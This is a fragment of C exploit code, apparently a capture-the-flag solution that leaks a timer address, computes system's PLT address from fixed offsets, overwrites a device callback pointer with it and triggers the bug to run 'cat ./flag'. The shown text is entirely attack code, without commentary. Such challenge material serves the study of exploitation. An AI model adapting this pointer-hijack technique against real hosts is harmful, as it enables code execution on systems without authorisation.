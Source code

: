 ````c
        *(uint64_t*)(userbuf+0x8+i*0x18) = 0x1040;
        *(uint64_t*)(userbuf+0x10+i*0x18) = phy_buf0;
    }
    set_read(0x1);
    //sleep(3);

    size_t buf_addr = *(size_t*)(buf1+0x18)+0xa00;
    size_t t_addr = *(uint64_t*)(buf1+0x10);
    printf("timer_addr: 0x%llx 0x%lx\n", buf_addr, t_addr);
    size_t system_plt = t_addr - 0x4dce80 + 0x2c2180;
    printf("system_plt: 0x%llx\n", system_plt);

    printf("write ptr:\n");
    for(int i=0; i<17; i++){
        *(uint64_t*)(userbuf+i*0x18) = phy_buf0;
        *(uint64_t*)(userbuf+0x8+i*0x18) = 0x1020;
        *(uint64_t*)(userbuf+0x10+i*0x18) = phy_buf0;
    }
    *(uint64_t*)(buf1+0x10) = system_plt;
    *(uint64_t*)(buf1+0x18) = buf_addr;
    char *command="cat ./flag\x00";
    memcpy(buf0,command,strlen(command));
    printf("cover system addr\n");
    set_read_write(0x11);
    printf("trigger vul\n");
    set_read(0x1);
    return 0;
}
````

